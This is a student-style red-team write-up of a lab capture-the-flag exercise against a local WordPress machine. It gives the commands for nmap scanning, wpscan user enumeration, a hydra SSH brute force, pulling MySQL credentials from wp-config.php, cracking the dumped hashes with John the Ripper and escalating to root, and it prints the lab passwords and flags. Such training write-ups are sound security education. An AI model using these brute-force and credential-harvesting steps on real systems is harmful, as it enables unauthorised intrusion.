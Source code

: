 ## Red Team: Summary of Operations

### Table of Contents
1. Exposed Services
2. Critical Vulnerabilities
3. Exploitation

### Exposed Services
- Nmap scan results for each machine reveal the below services and OS details:

- Command: $ nmap -sV 192.168.1.110

- This scan identifies the services below as potential points of entry:

**Target 1**
1. Port 22/TCP		Open		SSH
2. Port 80/TCP		Open		HTTP
3. Port 111/TCP		Open		rcpbid
4. Port 139/TCP		Open		netbios-ssn
5. Port 445/TCP		Open		netbios-ssn



### Critical Vulnerabilites
The following vulnerabilities were identified on each target:

**Target 1**

1. User Enumeration (WordPress site)
2. Found the occurrence of simplistic usernames and weak passwords (Hydra Command)
3. Brute forced ssh to gain access in to the system.
4. Secure files are not hidden away.
5. Misconfiguration of User Privileges/ Privilege Escalation


### Exploitation
The Red Team was able to penetrate Target 1 and retrieve the following confidential data:

**Target 1**

**flag1.txt:** {b9bbcb33e11b80be759c4e844862482d}


- Exploit Used:
- WPScan to enumerate users on the Target1 WordPress site.
- Command:
	$ wpscan --url 192.168.1.110/wordpress
	$ wpscan --url 192.168.1.110 --enumerate -u
		
	![](IMAGES/wpscan.png)


- Targeting the user michael
- Small manual Brute Force attack to guess/finds Michael's password.
- First, the user's password is weak and obvious.
- Second, for pratice, Hydra can be used to crack Michaels's password:
	- Command: hydra -l michael -P /usr/share/wordlists/rockyou.txt -vV 192.168.1.110 -t 4 ssh
		    
![](IMAGES/hydra-command-2.png)		


- Capturing Flag1: SSH in as Michael, transvering through directories and files.
- The first Flag was found in /var/www/html folder at root in services.html in a HTML comment below the footer.
	- Commands:
		- ssh michael@192.168.1.110
		- password: michael
		- cd /var/www/html
		- ls -l
		- nano services.html
			
![](IMAGES/flag1.png)
			
            	


**flag2.txt:** {fc3fd5Bdcdad9ab23facac6e9a365e581c33}


Exploit Used

- The same exploit used to gain flag1.
- Capturing Flag2: While in SSH in as Michael, Flag2 was also gained.
	- Once again, browsing through the files and directories, Flag2 can be found in /var/www next to the html folder where Flag1 was found. 
	- Commands:
		- ssh michael@192.168.1.110
		- password: michael
		- cd /var/www
		- ls -l
		- cat flag2.txt
		
![](IMAGES/flag2.png)

**flag3.txt:** {afc01ab56b50591e7dccf93122770cd23}

Exploit Used:
- Same exploits to gain Flag1 and Flag2.
- Capturing Flag3: Access the MYSQL database.
	- Discovering the wp-config.php and gaining access to the database credentials as the user Michael, MYSQL when used to explore the database.
- Commands:
	- mysql -u root -p 'R@v3nSecurity' 
	- show databases;
	- use wordpress;
	- select * from wp_posts;
		
![](IMAGES/flag3.png)

**flag4.txt:** {715dea6c055b9fe3337544932F2941ce}

Exploit Used:
- Unsalted password hash and use of the privilege escalation with Python.
- Capture Flag4: Gained user credentials, cracked password with John the Ripper and used Python to gain root privileges.
- Once gaining access to the database credentials as the user Michael from the wp-config.php file, the next step was to lift the username and password hasses using MYSQL.
- The credentials were located in the wp_users table in the wordpress database. The usernames and passwords were copied and saved on the Kali machine in a file call wp_hashes.txt.
	- Commands: 
		- mysql -u root -p'R@v3nSecurity' 
		- show databases;
		- use wordpress;
		- show tables;
		- select * from users;

- On the Kali machine the wp_hashes.txt ran against John the Ripper to crack the hashes.
- Command:
		- john wp_hashes.txt
		
![](IMAGES/steven-password-2.png)
        

- Once the user Steven's password hash was crached, the next step was to SSH in the server as Steven. Under the user Steven, privileges will first be checked, and escalated to root by guessing common root passwords.
	- Commands:
		- ssh steven@192.168.1.110
		- password: pink:84
		- sudo -l
		- su root
		- password: toor
		- find /-iname flag*
		- cat /root/flag4.txt
		
![](IMAGES/flag4.png)
